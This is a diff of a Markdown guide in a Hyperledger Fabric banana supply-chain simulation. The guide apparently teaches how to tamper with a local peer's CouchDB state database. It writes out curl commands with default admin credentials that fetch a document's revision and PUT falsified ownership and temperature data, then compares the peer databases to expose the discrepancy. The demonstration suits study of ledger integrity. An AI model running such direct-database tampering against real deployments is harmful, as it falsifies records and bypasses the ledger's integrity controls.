

Before and after one commit to jayvienmocallay/hijo-fabric-simulation, a Markdown page: TAMPER_ATTACK_SIMULATION_GUIDE.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/TAMPER_ATTACK_SIMULATION_GUIDE.md
+++ b/TAMPER_ATTACK_SIMULATION_GUIDE.md
@@ -47,32 +41,13 @@ peer chaincode invoke -o localhost:7050 \
   -c '{"Args":["CreateBatch","BATCH101","Tagum Farm Sector 4","2026-07-29","1500.5","EMP-AGRI-001"]}'
 ```
 
-*Verification:*
+#### Step B: Execute Direct DB Tamper (Bypassing Blockchain)
 ```bash
-peer chaincode query -C hijosupplychain -n banana_tracking -c '{"Args":["QueryBatch","BATCH101"]}'
-```
-
----
-
-## 4. Step 2: Execute the Tamper Attack (Bypassing Blockchain Peer)
-
-Now, act as the attacker. Execute the following CLI commands to bypass the peer and alter `couchdb.agri` directly.
-
-### Step 2A: Fetch Document Revision (`_rev`)
-CouchDB requires the current document revision identifier (`_rev`) to accept a modification:
-
-```bash
-# Fetch document and extract _rev tag
+# Fetch document revision tag
 DOC=$(curl -s http://admin:adminpw@localhost:5984/hijosupplychain_banana_tracking/BATCH101)
 REV=$(echo $DOC | jq -r '._rev')
 
-echo "Target Document Revision: $REV"
-```
-
-### Step 2B: Inject Tampered Data Direct to `couchdb.agri` Database
-Send a direct HTTP `PUT` request to `couchdb.agri` (Port `5984`), altering the ownership to `"HACKER_ORG"`, temperature to `99.9°C`, and marking customs cleared:
-
-```bash
+# Inject tampered data direct to couchdb.agri
 curl -s -X PUT http://admin:adminpw@localhost:5984/hijosupplychain_banana_tracking/BATCH101 \
   -H "Content-Type: application/json" \
   -d '{
@@ -89,25 +64,18 @@ curl -s -X PUT http://admin:adminpw@localhost:5984/hijosupplychain_banana_tracki
   }'
 ```
 
-*Expected Output:* `{"ok":true,"id":"BATCH101","rev":"3-..."}`
+---
+
+### 3. Seeing & Verifying the Discrepancy
+Compare `couchdb.agri` (tampered) against `couchdb.logistics` and `couchdb.port` (untouched):
+
+```bash
+echo "=== AGRI PEER DB (PORT 5984 - TAMPERED) ==="
+curl -s http://admin:adminpw@localhost:5984/hijosupplychain_banana_tracking/BATCH101 | jq -c '{currentOwner, temperatureDegC, transportStatus}'
+
+echo "=== LOGISTICS PEER DB (PORT 5985 - UNTOUCHED) ==="
+curl -s http://admin:adminpw@localhost:5985/hijosupplychain_banana_tracking/BATCH101 | jq -c '{currentOwner, temperatureDegC, transportStatus}'
+```
 
 ---
 
-## 5. Step 3: How to See and Inspect the Tampered Data
-
-You can visually confirm the database discrepancy using **3 different tools**:
-
-### Method A: Command Line Comparison (CLI)
-Run a side-by-side comparison across all 3 organization databases:
-
-```bash
-echo "=== AGRI PEER DATABASE (PORT 5984 - TAMPERED) ==="
-curl -s http://admin:adminpw@localhost:5984/hijosupplychain_banana_tracking/BATCH101 | jq -c '{currentOwner, temperatureDegC, transportStatus, updatedByUID}'
-
-echo "=== LOGISTICS PEER DATABASE (PORT 5985 - UNTOUCHED) ==="
-curl -s http://admin:adminpw@localhost:5985/hijosupplychain_banana_tracking/BATCH101 | jq -c '{currentOwner, temperatureDegC, transportStatus, updatedByUID}'
-
-echo "=== PORT PEER DATABASE (PORT 5986 - UNTOUCHED) ==="
-curl -s http://admin:adminpw@localhost:5986/hijosupplychain_banana_tracking/BATCH101 | jq -c '{currentOwner, temperatureDegC, transportStatus, updatedByUID}'
-```
-
````
Also changed, not shown: other parts of TAMPER_ATTACK_SIMULATION_GUIDE.md (+109 -71 lines).
